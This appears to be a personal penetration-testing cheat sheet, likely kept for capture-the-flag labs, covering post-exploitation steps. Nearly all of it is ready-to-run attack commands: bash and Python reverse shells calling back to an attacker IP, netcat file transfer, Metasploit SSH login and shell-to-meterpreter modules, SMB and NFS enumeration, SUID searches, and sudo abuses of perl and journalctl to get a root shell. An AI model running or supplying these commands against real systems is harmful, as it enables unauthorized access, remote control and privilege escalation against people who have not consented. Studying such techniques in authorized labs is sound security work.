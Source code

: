 # Attempt to Elevate permissions after entry



## Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

## Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

## Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```

# Windows Specific

User Details
```
net user username
```
reverse shell exe

```
/usr/share/windows-resources/binaries/nc.exe

# Linux Specific

```sudo -l```

```whoami```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


# FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


# Samba share

## Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

## Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


## Inspect Samba Share

```
smbclient //ip/sambashare
```


## Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

# PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

# JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
